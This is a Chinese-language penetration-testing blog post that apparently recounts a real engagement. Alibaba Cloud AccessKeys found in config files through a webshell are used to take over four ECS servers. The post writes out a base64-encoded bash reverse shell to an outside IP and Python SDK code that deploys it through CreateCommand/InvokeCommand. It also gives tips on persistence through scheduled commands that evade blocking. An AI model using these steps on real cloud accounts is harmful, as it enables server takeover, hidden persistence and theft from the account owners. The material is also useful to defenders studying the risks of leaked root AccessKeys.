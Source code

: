 ```yaml
---
date: "2019-04-02T00:00:00Z"
description: 项目中准备开展内网渗透的时候，信息搜集给我带来的收获……
title: 阿里云Access Token问题 - 项目收获记录
url: /archivers/2019-04-02/1
---
```


## 0x00 前言

Q：在获得权限较低的Webshell的情况下，如何继续扩大收获？

A：首先，信息搜集，分别包含：当前权限，主机网络环境、系统进程、网络连接状况、散落的凭证等，然后进行战略分析

1. 是否需要提权
2. 如何将流量带入（转发）
3. 结合搜集的信息转化出其他更好的思路

很巧，我遇到了第三种情况。

**Tips：内网渗透一般提权是最不可取的方案，我们只需要不断搜集信息、撕开一个流量口子即可。**

## 0x01 阿里云对象存储 - OSS

什么是对象存储？

阿里云对象存储服务（Object Storage Service，简称OSS），是阿里云对外提供的海量、安全、低成本、高可靠的云存储服务。您可以通过本文档提供的简单的REST接口，在任何时间、任何地点、任何互联网设备上进行上传和下载数据。基于OSS，您可以搭建出各种多媒体分享网站、网盘、个人和企业数据备份等基于大规模数据的服务。


通过Webshell在目标机器（Linux）的Web站点目录下发现多个子站配置文件`config.php`，配置了同一个阿里云的OSS地址，只是存储空间（Bucket）不同。

通常情况下一个阿里云oss地址的组成如下：


`http(s)://[BucketName].oss-cn-[Region].aliyuncs.com`

BucketName ：存储空间

Region：地域，目前有如下几个：

![2019-04-02-20-58-34](../../../static/images/5f10d050-4f5f-11ec-b934-00d861bf4abb.png)

例如：杭州 = cn-hangzhou



## 0x02 Access Token

Access Token = AccessKeyId + AccessKeySecret


OSS通过使用AccessKeyId/ AccessKeySecret对称加密的方法来验证某个请求的发送者身份。

AccessKeyId用于标示用户，AccessKeySecret是用户用于加密签名字符串和OSS用来验证签名字符串的密钥，其中AccessKeySecret必须保密，只有用户和OSS知道。AccessKey 根据所属账号的类型有所区分。

**阿里云账户AccessKey：阿里云账号提供的AccessKey拥有所属资源的全部操作权限**

RAM账户AccessKey：RAM账户由阿里云账号授权生成，所拥有的AccessKey拥有对特定资源限定的操作权限

STS临时访问凭证：由阿里云账号或RAM账号生成，所拥有的AccessKey在限定时间内拥有对特定资源限定的操作权限。过期权限收回。

[详细介绍](https://help.aliyun.com/document_detail/31867.html?spm=a2c4g.11186623.2.7.60c35869TaDn9K#concept-e4s-mhv-tdb)

## 0x03 通过Access Token接管ECS

ECS：云服务器（Elastic Compute Service，简称 ECS）是一种简单高效、处理能力可弹性伸缩的计算服务，帮助您快速构建更稳定、安全的应用，提升运维效率，降低 IT 成本，使您更专注于核心业务创新。

前面介绍到，默认情况下，阿里云用户获得的Access Token是对当前用户所有服务通用的令牌，在没有使用RAM账户的情况下，就可以使用SDK去操作阿里云所有产品。

在此次项目里，我接管了四台ECS，执行任意命令，获得最大权限。


首先，通过读取配置文件，获得了同于上传图片所需要认证的Access Token，如何检验是否可用的呢？


```
Access Key Id : *********
Access Secret : ***************************
Region : cn-*****
```

下面直接调用获取ECS实例的API即可，以往情况下，我会使用Python，安装阿里云的sdk-core库，但是现在能在线调试，大大的节省了本地调试的成本：

DescribeInstances - 获得实例信息

![2019-04-02-21-11-05](../../../static/images/5f4963fc-4f5f-11ec-9a56-00d861bf4abb.png)


只有第一个`RegionId`是必填项，点击`API Explorer`，可以直接进入调试环境：

![2019-04-02-21-12-38](../../../static/images/5f9a2274-4f5f-11ec-8f74-00d861bf4abb.png)

服务器上的oss配置中刚好有RegionId，我就直接选择了，然后填入Access Token信息，就可以获得数据。

我是直接在`Alicloud Shell`里复制了一份运行的：

![2019-04-02-21-16-55](../../../static/images/5fe32866-4f5f-11ec-8225-00d861bf4abb.png)

输出结果如下：

![2019-04-02-21-21-17](../../../static/images/60291bd2-4f5f-11ec-88bc-00d861bf4abb.png)


使用`json.cn`格式化一下：

![2019-04-02-21-23-48](../../../static/images/607ec69a-4f5f-11ec-a155-00d861bf4abb.png)

共四台服务器，那么如何执行命令呢？

首先要创建一条命令，然后指定实例来调用命令，手册地址：

https://help.aliyun.com/document_detail/64844.html

命令的类型取值范围：

- RunBatScript：创建一个在 Windows 实例中运行的 Bat 脚本
- RunPowerShellScript：创建一个在 Windows 实例中运行的 PowerShell 脚本
- RunShellScript：创建一个在 Linux 实例中运行的 Shell 脚本

由于都是Linux，我就选择RunShellScript，注意：命令必须是base64encode


```
rvn0xsy@Rvn0xsy ~> echo "bash -i >& /dev/tcp/1.1.1.1/2333 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=
```

![2019-04-02-21-29-22](../../../static/images/60c11202-4f5f-11ec-ac1c-00d861bf4abb.png)

```
#!/usr/bin/env python
#coding=utf-8

from aliyunsdkcore.client import AcsClient
from aliyunsdkcore.acs_exception.exceptions import ClientException
from aliyunsdkcore.acs_exception.exceptions import ServerException
from aliyunsdkecs.request.v20140526.CreateCommandRequest import CreateCommandRequest

client = AcsClient('<accessKeyId>', '<accessSecret>', 'cn-shanghai')

request = CreateCommandRequest()
request.set_accept_format('json')

request.set_Type("RunShellScript")
request.set_CommandContent("YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=")
request.set_Name("test")

response = client.do_action_with_exception(request)
# python2:  print(response) 
print(str(response, encoding='utf-8'))

```

执行成功后，会返回如下信息：

```
{
	"RequestId": "********-****-****-****-********",
	"CommandId": "c-0************"
}
```

CommandId最好记下来，不然还要调用[DescribeCommands](https://api.aliyun.com/find/Ecs/DescribeCommands?spm=a2c1g.8271268.10000.91.169bdf25hVPFbi)


```
{
	"PageNumber": 1,
	"TotalCount": 1,
	"PageSize": 10,
	"RequestId": "********-****-****-****-********",
	"Commands": {
		"Command": [
			{
				"Name": "test",
				"Timeout": 3600,
				"CommandContent": "YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzIzMzMgMD4mMQo=",
				"Description": "",
				"Type": "RunShellScript",
				"CommandId": "c-0************",
				"WorkingDir": ""
			}
		]
	}
}
```

紧接着就是`InvokeCommand`：

- RegionId：区域ID，例如：cn-shanghai
- CommandId：命令ID
- InstanceId：实例ID
- Timed：命令是否为周期执行。 默认值：False
- Frequency：周期任务的执行周期，两次周期任务的时间间隔不能低于10秒。当参数 Timed 的值为 True 时，参数 Frequency 为必需参数。 该参数取值遵循Cron表达式，参阅[Cron表达式](https://help.aliyun.com/document_detail/64769.html?spm=a2c4g.11186623.2.21.755e1926kBOlWA)。

默认情况下，我们不需要管后面的参数，如果你想权限维持的话，可以设置Timed为False，并且设置Frequency为定时任务计划表达式，执行的过程中，基本上不会拦截，因为Access Token的调用，一切都是白名单的。

![2019-04-02-21-39-17](../../../static/images/6109210a-4f5f-11ec-85d9-00d861bf4abb.png)




